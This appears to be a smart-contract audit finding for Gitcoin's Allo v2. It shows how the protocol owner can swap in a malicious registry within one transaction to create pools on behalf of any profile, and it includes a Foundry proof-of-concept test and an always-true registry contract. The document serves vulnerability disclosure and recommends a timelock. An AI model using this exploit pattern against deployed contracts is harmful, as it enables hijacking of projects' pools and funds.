 Urban Strawberry Monkey

high

# Protocol owner can create pools on behalf of any profile
## Summary
A protocol vulnerability allows the Allo owner to create pools on behalf of profiles.

This vulnerability can be easily exploited by temporarily substituting the protocol registry with a malicious one within a single transaction.

According to [the project documentation](https://docs.allo.gitcoin.co/overview/project-registry#project-profiles), project profiles are essential as they represent on-chain identities capable of receiving funds, receiving attestations, or holding soul-bound tokens. Therefore, enabling a malicious actor to create a pool on behalf of a profile ID is a highly undesirable scenario.

## Vulnerability Detail
Only profile owner or members can create pools on behalf of a project profile. This is enforced via check at the beginning of the `_createPool()` function in `Allo.sol`:

https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/core/Allo.sol#L424

The check is made via a call to the `registry` to ensure that `msg.sender` is permissioned to create a pool. However, there's a vulnerability where a malicious protocol owner could easily swap out the protocol registry temporarily within a single transaction. This loophole allows them to create a new pool on behalf of any given profile:

https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/core/Allo.sol#L213-L215

Notably, the changes made through the updateRegistry() function take immediate effect and do not require approvals or a timelock mechanism, making this attack pretty straightforward to execute.

## Impact
The protocol owner has the ability to create pools on behalf of any profile and take ownership of these pools. This control allows them to govern allocations and distributions within these pools.

## Code Snippet
I have created a simple PoC which demonstrates how the attack could be performed. Just create a new file `test/foundry/core/MaliciousAlloOwnerCanCreatePool.t.sol` and put the following content in it.

Use `forge test -vvvv --match-test test_maliciousProtocolOwnerCreatesPoolOnBehalfOfProfile` to run the PoC:

```solidity
// SPDX-License-Identifier: AGPL-3.0-only
pragma solidity ^0.8.19;

import "forge-std/Test.sol";

import {Ownable} from "openzeppelin-contracts/contracts/access/Ownable.sol";
import {IAllo} from "../../../contracts/core/interfaces/IAllo.sol";
import {IStrategy} from "../../../contracts/core/interfaces/IStrategy.sol";
import {IRegistry} from "../../../contracts/core/interfaces/IRegistry.sol";
import {AlloTest} from "./Allo.t.sol";
import {MockStrategy} from "../../utils/MockStrategy.sol";

contract MaliciousAlloOwnerCanCreatePool is AlloTest {

    function setUp() public override {
        super.setUp();
    }

    function test_maliciousProtocolOwnerCreatesPoolOnBehalfOfProfile() public {
        // As per AlloTest#setUp(), local() is the Allo owner. Executing all subsequent txns as allow owner.
        vm.startPrank(local()); 

        // Save the address of the original registry, we would later update back to it
        IRegistry originalRegistry = allo().getRegistry();

        // Deploy a malicious registry and update allo to use it
        MaliciousRegistry maliciousRegistry = new MaliciousRegistry();
        allo().updateRegistry(address(maliciousRegistry));
        
        // Deploy a malicious strategy. Would use a MockStrategy for this PoC for simplicity
        // But essentially we could use any implementation that allocates and distributes in any arbitrary way
        address maliciousStrategy = address(new MockStrategy(address(allo())));

        // Create a pool on behalf of a profile.
        // We would use profile1_id() which is a valid profile ID registered in the original registry
        // (see RegistrySetup#__RegistrySetupFull())
        address[] memory noPoolManagersPlease = new address[](0);
        uint256 poolId = allo().createPoolWithCustomStrategy(profile1_id(), maliciousStrategy, "0x", address(token), 0, metadata, noPoolManagersPlease);

        // Change back registry to the original one
        allo().updateRegistry(address(originalRegistry));
        
        // Assert the protocol owner is the pool admin
        assertEq(true, allo().isPoolAdmin(poolId, local()));

        // Let's also show that local() is not an owner or a memeber of profile1 in the registry
        // Thus they should *NOT* be able to create pools on behalf of profile1.
        assertEq(false, originalRegistry.isOwnerOrMemberOfProfile(profile1_id(), local()));

        vm.stopPrank();
    }
}

contract MaliciousRegistry {

    function isOwnerOrMemberOfProfile(bytes32 _profileId, address _account) external view returns (bool) {
        return true;
    }
}
```

## Tool used

Manual Review

## Recommendation
- Consider using a timelock mechanism when updating critical protocol addresses that have a critical impact on the protocol (such as the registry);